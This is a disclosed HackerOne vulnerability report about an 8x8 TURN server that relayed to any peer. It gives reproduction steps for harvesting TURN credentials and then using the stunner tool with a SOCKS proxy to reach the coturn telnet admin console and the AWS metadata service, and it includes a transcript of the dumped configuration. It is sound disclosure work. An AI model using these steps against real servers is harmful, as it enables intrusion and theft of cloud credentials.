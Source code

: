 # Open TURN relay abuse is possible due to lack of peer access control (Critical)

## Report Details
- **Report ID**: 843256
- **URL**: https://hackerone.com/reports/843256
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-08T14:42:53.762Z
- **Disclosed**: 2020-06-08T21:36:26.131Z

## Reporter
- **Username**: sandrogauci
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: 8x8-bounty

## Vulnerability Information
> NOTE: This is not an SSRF vulnerability but an open TURN relay vulnerability. Typically, this security vulnerability has at least the same impact as an SSRF. However it is considered more useful from an attacker's point of view since attacks are not restricted to HTTP.

- Affects: 
    - `█████:443`
    - `████████:443`

## Description

The affected TURN server did not put any restrictions on peer which allows remote attackers to bypass firewall rules and reach internal services on the server itself as well as the AWS internal network. In the case of `██████████:443`, both TCP and UDP peers could be specified, while `███████:443` appeared to restrict TCP and only allow UDP.

## Steps To Reproduce:

1. Retrieved temporary TURN credentials from XMPP by:
    - making use of Chrome's devtools 
    - open the network tab, filter just WS connections
    - in the `xmpp-websocket` messages, set a filter for `type='turn'`
    - observe the TURN hostname and credentials
2. Made use of an internal tool called `stunner` as follows: `stunner recon tls://███████:443 -u ████████`
3. Made use of stunner's port scanner and socks proxy to reach the telnet server, AWS meta-data service and so on

Note that we restricted our tests to just the following to avoid causing denial of service to the system:

- Read access to AWS meta-data service
- Only running `help` and `pc` commands on coturn telnet server (other commands may be destructive)

The following is an excerpt from the connection to the coturn telnet server:


```
proxychains -f config telnet 127.0.0.1 5766
[proxychains] config file found: config
[proxychains] preloading /usr/lib64/proxychains-ng/libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.13
Trying 127.0.0.1...
[proxychains] Dynamic chain  ...  127.0.0.1:9999  ...  127.0.0.1:5766  ...  OK
Connected to 127.0.0.1.
Escape character is '^]'.

> pc

  verbose: ON
  daemon process: ON
  stale-nonce: ON (*)
  stun-only: OFF (*)
  no-stun: OFF (*)
  secure-stun: OFF (*)
  do-not-use-config-file: OFF
  RFC5780 support: ON
  net engine version: 3
  net engine: UDP thread per CPU core
  enforce fingerprints: OFF
  mobility: OFF (*)
  udp-self-balance: OFF
  pidfile: /var/run/turnserver.pid
  process user ID: 0
  process group ID: 0
  process dir: /

  cipher-list: DEFAULT
  ec-curve-name: empty
  DH-key-length: 1066
  Certificate Authority file: empty
  Certificate file: /████████.crt
  Private Key file: /███.key
  Listener addr: 127.0.0.1
  Listener addr: ██████
  Listener addr: ::1
  Listener addr: ███████
  no-udp: OFF
  no-tcp: OFF
  no-dtls: OFF
  no-tls: OFF
  TLSv1.0: ON
    TLSv1.1: ON
  TLSv1.2: ON
  listener-port: 443
  tls-listener-port: 5349
  alt-listener-port: 0
  alt-tls-listener-port: 0


  Relay addr: █████
  Relay addr: ██████████
  server-relay: OFF
  no-udp-relay: OFF (*)
  no-tcp-relay: OFF (*)
  min-port: 49152
  max-port: 65535
  no-multicast-peers: OFF (*)
  no-loopback-peers: OFF (*)

  DB type: SQLite
  DB: /var/lib/turn/turndb

  Default realm: █████
  CLI session realm: █████
...

> q
```

## Supporting Material/References:

- Similar vulnerability: <https://www.rtcsec.com/2020/04/01-slack-webrtc-turn-compromise>

## Impact

Abuse of this vulnerability allows attackers to:

- control Coturn by connecting to the telnet server on port 5766 which in turn, allows for writing of files on disk (e.g. using `psd` command), display and editing of the coturn configuration, stopping the server
- connecting to the AWS meta-data service and retrieving IAM credentials for user `HipChatVideo-Coturn`, viewing user-data configuration etc
- scanning `127.0.0.1` and internal network on `██████` and connecting to internal services

Note that in the case of `██████████:443`, both TCP and UDP peers can be specified, while `███:443` appeared to be restricted to just UDP which somewhat limits the security impact of this vulnerability.

We think that it is likely that abuse of the coturn telnet server could lead to remote code execution on the server and further penetration inside 8x8's infrastructure.

## Attachments
No attachments
